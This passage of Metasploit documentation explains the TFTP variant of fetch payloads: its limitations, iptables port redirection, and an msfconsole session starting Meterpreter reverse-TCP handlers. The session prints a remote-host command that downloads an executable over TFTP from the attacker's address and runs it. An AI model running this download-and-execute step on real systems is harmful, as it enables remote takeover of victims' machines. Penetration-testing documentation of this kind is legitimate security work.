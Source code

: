 #### `TFTP` 
The TFTP binary is useful only in edge cases because of a long list of limitations:
1) It is a Windows feature, but it is turned off by default on Windows Vista and later.
2) While you are likely to find it on Linux and Unix hosts, the options are not standard across releases.
3) The TFTP binary included in many Linux systems and all Windows systems does not allow for the port to be configured,
nor does it allow for the destination filename to be configured, so `FETCH_SRVPORT` must always be set to 69 and 
`FETCH_WRITABLE_DIR` and `FETCH_FILENAME` must be empty.  Listening on port 69 in Framework can be problematic, so I
suggest that you use the advanced option `FetchListenerBindPort` to start the server on a different port and redirect
the connection with a tool like iptables to a high port.
For example, if you are on a linux host with iptables, you can execute the following commands to redirect a connection
on UDP port 69 to UDP port 3069:
`sudo iptables -t nat -I PREROUTING -p udp --dport 69 -j REDIRECT --to-ports 3069`
`sudo iptables -t nat -I OUTPUT -p udp -d 127.0.0.1 --dport 69 -j REDIRECT --to-ports 3069`
Then, you can set `FetchListenerBindPort` to 3069 and get the callback correctly.
4) Because tftp is a udp-based protocol and because od the implementation of the server within Framework, each time you
start a tftp fetch handler, a new service will start:
```msf
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 4445
LPORT => 4445
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so plEYxIdBQna.exe tftp://10.5.135.201:8080/test1 & start /B plEYxIdBQna.exe
[*] Payload Handler Started as Job 4

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:4445 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444
  4   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4445

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set FETCH_URIPATH test4
FETCH_URIPATH => test4
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 8547
LPORT => 8547
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler
```